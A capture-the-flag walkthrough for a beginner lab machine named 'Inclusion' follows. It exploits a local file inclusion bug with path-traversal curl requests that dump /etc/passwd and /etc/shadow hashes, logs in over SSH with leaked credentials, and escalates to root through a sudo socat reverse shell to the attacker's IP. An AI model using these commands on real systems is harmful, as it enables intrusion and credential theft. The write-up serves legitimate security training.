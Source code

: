 # Inclusion

## Description

A beginner level LFI challenge

## user flag

Nmap detects 2 open ports: `ssh` and `http`:

~~~
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-title: My blog
~~~

Let's start with http.

When we connect to http://10.10.16.8, we can see a basic web page with 3 buttons at the bottom of the page, with following links:
* http://10.10.16.8/article?name=hacking
* http://10.10.16.8/article?name=lfiattack
* http://10.10.16.8/article?name=rfiattack

Let's try to inject a file:

~~~
$ curl -s http://10.10.16.8/article?name=../../../../etc/passwd | html2text 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-
data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List
Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-
Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-
network:x:100:102:systemd Network
Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-
resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash
#falconfeast:rootpassword sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false

$ curl -s http://10.10.16.8/article?name=../../../../etc/shadow | html2text 
root:$6$mFbzBSI/$c80cICObesNyF9XxbF6h6p6U2682MfG5gxJ5KtSLrGI8766/etwzBvppTuug6aLoltiSmeqdIaEUg6f/NLYDn0:18283:0:99999:7:::
daemon:*:17647:0:99999:7::: bin:*:17647:0:99999:7::: sys:*:17647:0:99999:7:::
sync:*:17647:0:99999:7::: games:*:17647:0:99999:7::: man:*:17647:0:99999:7:::
lp:*:17647:0:99999:7::: mail:*:17647:0:99999:7::: news:*:17647:0:99999:7:::
uucp:*:17647:0:99999:7::: proxy:*:17647:0:99999:7::: www-
data:*:17647:0:99999:7::: backup:*:17647:0:99999:7:::
list:*:17647:0:99999:7::: irc:*:17647:0:99999:7::: gnats:*:17647:0:99999:7:::
nobody:*:17647:0:99999:7::: systemd-network:*:17647:0:99999:7::: systemd-
resolve:*:17647:0:99999:7::: syslog:*:17647:0:99999:7:::
messagebus:*:17647:0:99999:7::: _apt:*:17647:0:99999:7:::
lxd:*:18281:0:99999:7::: uuidd:*:18281:0:99999:7:::
dnsmasq:*:18281:0:99999:7::: landscape:*:18281:0:99999:7:::
pollinate:*:18281:0:99999:7:::
falconfeast:$6$dYJsdbeD$rlYGlx24kUUcSHTc0dMutxEesIAUA3d8nQeTt6FblVffELe3FxLE3gOID5nLxpHoycQ9mfSC.TNxLxet9BN5c/:18281:0:99999:7:::
sshd:*:18281:0:99999:7::: mysql:!:18281:0:99999:7:::
~~~

OK, that was easy. The PHP page (`/article/index.php`) is likely including a page that is passed as a parameter to `name` as follows:

```php
if isset($_GET['name']) {
	include($_GET['name'])
}
```

Notice in the `/etc/passwd` file that 1 of the entries has been commented and contains both a login and a password:

~~~
#falconfeast:rootpassword sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
~~~

Let's try to use the credentials against SSH:

sshpass -p "rootpassword" ssh falconfeast@10.10.16.8

~~~
falconfeast@inclusion:~$ ls -l
total 8
drwxr-xr-x 2 root        root        4096 Jan 21 15:02 articles
-rw-r--r-- 1 falconfeast falconfeast   21 Jan 22 19:46 user.txt
falconfeast@inclusion:~$ cat user.txt 
60989655118397345799
~~~

User flag: `60989655118397345799`

## root flag    

To get the root flag, we obviously need to elevate our privileges. Let's list our privileges:

~~~
falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
~~~

We can run `socat` with `root` privileges. Let's see [here](https://gtfobins.github.io/gtfobins/socat/) how we can take advantage of it.

First open a listener on your own machine:

~~~
$ nc -nlvp 1234
~~~

Then on the remote host, run the following command (replace the IP with your own IP):

~~~
falconfeast@inclusion:~$ sudo socat tcp-connect:10.9.**.**:1234 exec:sh,pty,stderr,setsid,sigint,sane
~~~

In our reverse shell, we are now root:

~~~
$ nc -nlvp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.16.8.
Ncat: Connection from 10.10.16.8:41530.
sh: 0: can't access tty; job control turned off
# whoami
whoami
root
# cd /root
cd /root
# ls -l
ls -l
total 4
-rw-r--r-- 1 root root 21 Jan 22 19:47 root.txt
# cat root.txt	 
cat root.txt
42964104845495153909
~~~

Root flag: `42964104845495153909`